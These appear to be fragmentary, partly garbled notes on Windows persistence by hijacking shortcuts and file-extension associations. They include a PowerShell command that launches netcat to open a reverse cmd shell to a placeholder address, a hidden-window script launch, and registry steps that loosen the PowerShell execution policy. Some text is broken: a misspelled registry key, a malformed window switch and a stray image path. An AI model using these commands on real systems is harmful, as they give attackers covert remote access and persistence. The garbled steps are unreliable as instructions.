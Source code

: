 via Powershell 


>Start-Process -NoNewWindow "c:\tools\nc64.exe" "-e cmd.exe x.x.x.x 4444"
>c:\path\to\exe\in\shortcut

actual shortcut

powershell /window=style hidden c:\pathtoscript

Hijacking extensions.
You can hijack extensions in the same way with powershell then associate the extension with the powershell script.

>

1.  Hold down the **Windows Key**, then press “**R**” to bring up the Run window.
2.  Type “**regedit**“, then select “**OK**“:
3.  Navigate to the following:
    -   **HKEY_LOCAL_Machine**
    -   **SOFTWARE**
    -   **Microsoft**
    -   **PowerShell**
    -   **1**
    -   **Shelllds**
    -   **Microsoft.Powershell**
4.  Right-click the “**Microsoft.PowerShell**” folder, then select “**New**” > “**String value**“.
5.  Type “**ExecutionPolicy**“, then press “**Enter**” to set the string name.
6.  Open “**ExecutionPolicy**“, then type “**RemoteSigned**” in the “**Value data**” field.
7.  Select “**OK**“.


